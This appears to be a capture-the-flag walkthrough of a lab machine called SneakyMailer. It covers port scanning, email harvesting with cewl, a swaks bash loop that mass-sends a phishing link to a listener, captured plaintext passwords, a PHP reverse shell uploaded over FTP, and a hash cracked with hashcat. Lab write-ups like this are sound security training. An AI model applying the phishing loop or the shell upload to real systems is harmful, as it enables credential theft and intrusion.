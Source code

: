 # sneaky mailer



## nmap

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
25/tcp   open  smtp     Postfix smtpd
80/tcp   open  http     nginx 1.14.2
143/tcp  open  imap     Courier Imapd (released 2018)
993/tcp  open  ssl/imap Courier Imapd (released 2018)
8080/tcp open  http     nginx 1.14.2
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel



## httpEnum



Found few email addresses that we can try sending mail to

![image-20200813160211332](sneakymailer.assets/image-20200813160211332.png)



#### cewl

- we will use cewl to generate a wordlist of emails
- got a very big wordlist with other words as well
- we can use awk to remove unnecessary words

![image-20200813160822398](sneakymailer.assets/image-20200813160822398.png)



#### awk

```bash
awk '/@/ {print $1}' wordlist
```

![image-20200813160935573](sneakymailer.assets/image-20200813160935573.png)



- save the output to a new file for further enumeration

## smtp

- Since the name of box is sneaky mailer lets enumerate smtp
- we have collections of mail lets send a email to click on our link and see through netcat if we can find any data through it



#### swaks

- swaks is also called swiss army knife for smtp.
- it is used to send mail and we can automate sending mail to all of them though a bash loop

![image-20200813162721817](sneakymailer.assets/image-20200813162721817.png)

```bash
swaks -to <reciever> -from <sender> -body -server mailserver
```



now we will use bash loop to around this and start a netcat listener to see if anyone clicks it

#### bash script

````bash
for mail in $(cat httpenum/emails);do swaks -to $mail -from sneaky@mail.com -body 'click on http://10.10.14.46:8000/' -server '10.10.10.197';done
````



![image-20200813164446200](sneakymailer.assets/image-20200813164446200.png)

we got something from a user but it is url-encoded lets decode it and see the contents

```
firstName=Paul&lastName=Byrd&email=paulbyrd@sneakymailer.htb&password=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht&rpassword=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```

#### credentials

Username 	paulbyrd

Pass				^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht



lets login into his account using a mail client





## Evolution



We found new credentials for something.

![image-20200813172901922](sneakymailer.assets/image-20200813172901922.png)

````
Hello administrator, I want to change this password for the developer account
 
Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
 
Please notify me when you do it
````





## ftp

![image-20200813173059583](sneakymailer.assets/image-20200813173059583.png)

logged in to ftp server found a folder **dev** lets enumerate again with gobuster but this time with vhost option to see if there are anyother subdomains.



![image-20200813174600092](sneakymailer.assets/image-20200813174600092.png)



## httpenum

![image-20200813173839139](sneakymailer.assets/image-20200813173839139.png)

- found a subdomain dev.sneakycorp.htb
- we have access to this subdomain through ftp 
- we put a php reverse shell in this lets try to access it via subdomain





## shell

![image-20200813174954277](sneakymailer.assets/image-20200813174954277.png)





#### enumeration



![image-20200813185028235](sneakymailer.assets/image-20200813185028235.png)



- found a new sub domain **pypi.sneakycorp.htb**

- also found a file .htpasswd

![image-20200813185240007](sneakymailer.assets/image-20200813185240007.png)



#### hashcat

found new credentials but it is encrypted we will crack it using hashcat

````
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
````



![image-20200813190152858](sneakymailer.assets/image-20200813190152858.png)



#### credentials

pypi	:		soufianeelhaoui



#### pypi server

![image-20200813190432007](sneakymailer.assets/image-20200813190432007.png)


